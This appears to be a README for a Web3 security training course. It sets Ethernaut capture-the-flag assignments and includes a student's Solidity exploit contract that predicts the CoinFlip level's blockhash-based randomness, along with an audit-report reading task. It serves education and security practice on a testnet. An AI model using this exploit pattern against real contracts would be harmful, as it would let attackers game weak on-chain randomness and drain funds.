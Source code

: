 # Ethernaut Capture the Flag (CTF)
The Ethernaut is a Web3/Solidity based wargame inspired by overthewire.org, played in the Ethereum Virtual Machine. Each level is a smart contract that needs to be 'hacked'. The game is 100% open source and all levels are contributions made by other players.

# Assignments

## Submission
Please create a pull request with:
- The instance address of the contract you submitted
- Your wallet address
- The testnet you are using
- Any code you wrote for your exploit

## Ethernaut Level 3 CoinFlip
https://ethernaut.openzeppelin.com/

Network: Polygon Mumbai
Tx: https://mumbai.polygonscan.com/tx/0x6d96a372cf42a6ad0683317cd9a67dcb5e52022c779f80aa81f09a277a188c2a

```
pragma solidity ^0.8.0;

interface ICoinFlipGame {
    function flip(bool) external returns (bool);
}

contract CoinFlipGame {

  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function flip(address coinGame) public {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert("oh man");
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    bool value = ICoinFlipGame(coinGame).flip(side);
    require(value,"fail transaction");
  }
}
```
## Read through through audit report and 

Read through the following audit report and write a detailed description about one of the vulnerabilities as a comment on this issue: https://github.com/KITTLABS/web3-Q2-security-training/issues/12


https://code4rena.com/reports/2023-01-numoen/


# Optional Assignment
Hint: This level can be exploited with one of the attack vectors we went over in session 3.

## Ethernaut Level 10 Re-entrancy
https://ethernaut.openzeppelin.com/

